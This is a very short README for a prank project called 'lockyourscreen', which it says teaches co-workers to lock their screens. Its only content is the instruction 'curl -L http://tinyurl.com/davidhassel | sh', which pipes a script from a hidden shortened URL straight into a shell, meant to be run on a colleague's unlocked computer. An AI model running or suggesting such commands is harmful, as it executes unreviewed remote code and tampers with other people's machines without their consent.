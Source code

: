 lockyourscreen
==============

This is used to teach co-workers why they should always lock their screen

Run this for pwnage:

```
  curl -L http://tinyurl.com/davidhassel | sh
```
